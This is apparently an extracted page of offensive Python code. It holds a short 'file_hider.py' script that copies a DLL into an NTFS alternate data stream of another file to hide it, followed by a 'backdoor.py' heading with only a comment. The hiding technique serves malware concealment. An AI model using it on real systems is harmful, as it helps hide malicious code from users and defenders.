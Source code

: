 file_hider.py
```python:n
import sys
# Reae in the DLL
fd = open(sys.argv[1], "rb")
dll_contents = fd.read()
fd.close()

print "[*] FileSize: %d" % len(dll_contents)

# Now write it out to the ADS
fd = open("%s:%s" % (sys.argv[2],sys.argv[1]), "wb")
fd.write(dll_contents)
fd.close()
```


backdoor.py
```python:n
# this library contains all the necessary defines for process creation

```
